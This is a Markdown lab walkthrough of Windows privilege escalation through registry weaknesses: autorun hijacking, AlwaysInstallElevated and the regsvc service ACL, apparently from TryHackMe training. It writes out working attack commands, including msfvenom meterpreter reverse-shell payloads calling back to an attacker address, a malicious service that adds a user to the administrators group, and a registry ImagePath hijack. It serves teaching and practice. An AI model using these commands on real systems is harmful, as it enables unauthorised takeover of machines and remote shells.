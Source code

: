 # Escalation path: Registry

### Overview of TryHackMe Labs

Windows PrivEsc Lab - https://tryhackme.com/room/windowsprivescarena

Built with lpeworkshop - https://github.com/sagishahar/lpeworkshop

### Overview of Autoruns

Check autorun targets with Sysinternals `Autoruns64.exe`. This opens a GUI showing all Autorun entries in the
registry

The Logon tab shows programs that autorun at log on

![Logon](./pictures/registry-autorun.png)

We can check the permissions on any interesting autoruns with Sysinternals `accesschk64.exe`. We're looking 
for executables with `RW Everyone FILE_ALL_ACCESS` 

`C:\Path\To\Sysinternals\Accesschk\accesschk64.exe -vwu "C:\Program Files\Autorun Program"`

![Accesschk](./pictures/registry-accesschk.png)

We can also use PowerUp's `Invoke-AllChecks` to find modifiable registry autoruns

```
C:\>powershell -ep bypass
PS C:\>. .\PowerUp.ps1
PS C:\>Invoke-AllChecks
```

![PowerUp Invoke-AllChecks](./pictures/registry-powerup.png)

### Escalation via Autorun

Create a meterpreter shell with msfvenom

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o program.exe`

Run `msfconsole` and start a multi/handler, then start a python HTTP server to upload the file onto the target

Use Internet Explorer to download and save the program.exe file, replacing the existing one in 
`C:\Program Files\Autorun Program`. If you try to move and replace the file it will trigger an Administrator 
log in, using IE to save the file as a replacement does not.

Disconnect from the RDP session then log in with the Administrator account, TCM. This will trigger the 
autorun, giving us an Administrator meterpreter shell

### AlwaysInstallElevated Overview and Escalation

Check the registry keys to see if AlwaysInstallElevated is enabled

```
C:\>reg query HKLM\Software\Policies\Microsoft\Windows\Installer

C:\>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

![AlwaysInstallElevated keys](./pictures/registry-alwaysinstallelevated.png)

0x1 means the value is true, AlwaysInstallElevated is enabled.

PowerUp Invoke-AllChecks will check for the registry keys and provides a function `Write-UserAddMSI` to 
generate a malicious UserAdd.msi file that can be used to create an Administrator user

Another option is to use msfvenom to generate a malicious .msi file that can excecute system commands or just 
create a reverse shell

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f msi -o setup.msi`

Upload it to the target, start a multi/handler listener, then run it with msiexec

`msiexec /quiet /qn /i C:\Path\To\File\setup.msi`

From a low privileged meterpreter shell we can use the `exploit/windows/local/always_install_elevated` module
to elevate privileges in an existing session

### Overview of regsvc ACL

Fetch the ACL for the regsvc registry key

`Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`

![regsvc](./pictures/registry-regsvc.png)

The NT AUTHORITY\INTERACTIVE group is any user logged into the local machine, so we have full control over 
the key

### regsvc Escalation

Download the windows_service.c file using a python ftp server on the attacking machine

`python -m pyftpdlib -p 21 --write`

Change the system() payload

`cmd.exe /k net localgroup administrators user /add`

Compile the malicious service with mingw32 gcc

`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`

Upload the malicious service exe to the target

Add the service exe to the regsvc registry key, using /v to add a value to a subkey ImagePath which 
contains the path of the driver's image file. When the service starts the exe will be executed by the service

`C:\>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`

- `/t` type of value, REG_EXPAND_SZ is a string
- `/d` data, in this instance the string value
- `/f` no prompt

Then we start the service to add our current user to the administrators local group

`sc start regsvc`

![Update regsvc subkey](./pictures/registry-regsvc-add-subkey.png)
![Update regsvc subkey](./pictures/registry-regsvc-admins.png)
